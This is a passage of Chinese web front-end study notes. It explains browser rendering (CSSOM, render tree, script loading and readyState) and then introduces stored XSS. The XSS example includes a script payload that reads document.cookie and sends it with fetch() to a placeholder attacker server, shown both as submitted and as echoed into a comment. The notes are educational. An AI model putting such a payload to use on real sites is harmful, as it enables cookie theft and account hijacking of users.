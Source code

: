 
17、解析过程中遇到图⽚、样式表、js⽂件，启动下载

18、构建CSSOM树：

- Tokenizing：字符流转换为标记流

- Node：根据标记创建节点

- CSSOM：节点创建CSSOM树


19、根据DOM树和CSSOM树构建渲染树 :

- 从DOM树的根节点遍历所有可⻅节点，不可⻅节点包括：

- script , meta 这样本身 不可⻅的标签。
  被css隐藏的节点，如 display: none
  对每⼀个可⻅节点，找到恰当的CSSOM规则并应⽤
- 发布可视节点的内容和计算样式


20、js解析如下：

- 浏览器创建Document对象并解析HTML，将解析到的元素和⽂本节点添加到⽂档中，此时**document.readystate为loading**

- HTML解析器遇到没有async和defer的script时，将他们添加到⽂档中，然后执⾏⾏内 或外部脚本。这些脚本会同步执⾏，并且在脚本下载和执⾏时解析器会暂停。这样就可以⽤document.write()把⽂本插⼊到输⼊流中。同步脚本经常简单定义函数和注册事件处理程序，他们可以遍历和操作script和他们之前的⽂档内容

- 当解析器遇到设置了async属性的script时，开始下载脚本并继续解析⽂档。脚本会在它 下载完成后尽快执⾏，但是解析器不会停下来等它下载。异步脚本禁止使⽤ document.write()，它们可以访问⾃⼰script和之前的⽂档元素

- 当⽂档完成解析，document.readState变成interactive

- 所有defer脚本会按照在⽂档出现的顺序执⾏，延迟脚本能访问完整⽂档树，禁止使⽤ document.write()

- 浏览器在Document对象上触发DOMContentLoaded事件

- 此时⽂档完全解析完成，浏览器可能还在等待如图⽚等内容加载，等这些内容完成载⼊ 并且所有异步脚本完成载⼊和执⾏，document.readState变为complete，window触发 load事件

21、显示⻚⾯（HTML解析过程中会逐步显示⻚⾯）

## XSS 跨站脚本攻击

主要是因为前端对用户的输入没有进行校验，有三种类型

* 存储型 XSS，代码会长期存储在服务器

示例：攻击者在某网站的 “评论框” 中，提交一段伪装成正常评论的恶意代码：
```javascript
输入<script>
  // 恶意代码：窃取当前用户的 Cookie（包含 SessionID）并发送给攻击者服务器
  var cookie = document.cookie;
  fetch('https://攻击者服务器/steal?cookie=' + cookie);
</script>
```
网站后端未过滤这段代码，直接将其当作 “正常评论” 存入数据库。其他用户访问该文章的评论区时，服务器从数据库读取评论，生成 HTML 并返回给用户浏览器：
```javascript
<div class="comment">回显<script>var cookie=document.cookie;fetch('https://攻击者服务器/steal?cookie='+cookie);</script></div>
```
用户浏览器解析 HTML 时，会执行 `<script>` 标签中的恶意代码，将自己的 Cookie发送给攻击者；攻击者拿到 Cookie 后，可冒充该用户登录网站，执行转账、修改密码等操作。
